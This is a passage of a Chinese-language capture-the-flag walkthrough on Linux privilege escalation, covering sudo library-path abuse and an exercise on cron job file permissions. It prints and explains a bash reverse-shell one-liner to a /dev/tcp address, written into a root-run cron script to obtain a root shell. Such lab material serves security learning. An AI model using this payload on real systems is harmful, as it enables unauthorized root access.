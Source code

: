 **而`/home/user/tools/sudo/library_path.c`的内容是**

**![](img/ef9cd4bdceef925b690d7af95cd228fe.png)**

**基本上，这些程序运行一个对`/bin/bash`的系统调用来产生一个 shell，因为我们用 sudo 运行它，我们得到一个根 shell**

**这就是为什么进程独立于被调用的库**

# **任务 8: Cron 作业-文件权限**

**所以我们看到`overwrite.sh`每分钟都被执行**

**哦，顺便说一句，如果你在阅读 cron 工作时间方面有困难，请访问 crontab guru**

**所以现在，我们可以通过在`overwrite.sh`中编写我们的代码来连接到我们的本地机器，生成一个 shell，当它被 root 用户执行时，我们将得到一个 shell**

**在 unix 系统中，打开端口(或套接字？不确定)，是通过像访问文件一样访问`/dev/`中的协议和端口完成的(如果我是对的，它被称为文件描述符)**

**所以，我们的代码应该是**

```
#!/bin/bash
bash -i >& /dev/tcp/10.2.12.26/4444 0>&1
```

****说明:****

*   **第一行:shebang 表示解释器，这里是 bash**
*   **第二行:`bash -i`打开一个交互式 shell，`>& /dev/tcp/10.2.12.26/4444`将所有流重定向到我们的本地机器，`0>&1`将 **stdin** 和 **stdout** 重定向到 **stdout****

**因此，在编辑完`overwrite.sh`中的代码后，我们在本地机器上监听，等待一个 shell**
